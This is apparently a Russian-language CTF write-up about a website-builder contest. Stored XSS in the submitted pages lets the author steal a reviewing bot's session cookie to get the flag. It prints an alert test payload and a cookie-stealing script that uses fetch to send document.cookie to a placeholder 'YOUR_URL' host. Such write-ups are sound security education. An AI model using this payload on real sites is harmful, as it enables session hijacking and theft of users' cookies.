

# Объявляется конкурс!

Нам предлагают создать свой сайт, поучаствовать в конкурсе и выиграть некий секретный приз. Также в описании задания сказано, что можно "оживлять" свои странички. Это может натолкнуть на мысль об использовании JavaScript в коде своей страницы.


Помимо стандартных HTML тегов мы можем попробовать добавить на страницу скрипт. Например, для вызова уведомления:

```html
<script>alert(123)</script>
```
И это сработало, уведомление выводится на страничку при переходе по ссылке.

 

Это значит, что сайт подвержен XSS (Cross-Site Scripting) уязвимости, позволяющей выполнять произвольный код на стороне клиента.

После публикации нашей странички можно заметить кнопку "Отправить", которая передает страницу на рассмотрение.

 

Погуглив, что можно получить, используя XSS уязвимость, узнаем, что с её помощью возможно украсть cookie пользователя, который исполнит скрипт на своей стороне. В нашем случае кто-то рассматривает странички, поэтому попытаемся угнать его сессию.

Для этого потребуется свой сервер, на который мы сможем принять запрос от пользователя с его куками (можно использовать сервисы по типу Webhook или Alwaysdata).

Пейлоад для отправки кук мы можем найти в интернете или написать сами, зная такой JavaScript метод, как fetch.

Пример скрипта:

```html
<script>fetch('YOUR_URL' + document.cookie)</script>
```

Когда пользователь заходит на вашу страницу, он исполняет этот JS код и по сути сам отправляет свои куки вам на сервер, не зная об этом.

Попробуем создать страничку с таким скриптом и отправить на проверку, и сразу же получаем куку с флагом.
 

Также в течении соревнования участники получили следующий хинт: "После отправки странички каждому участнику полагаются бесплатные печеньки! Оставьте свой адрес, и мы их доставим.", что намекает на действия, связанные с куками.
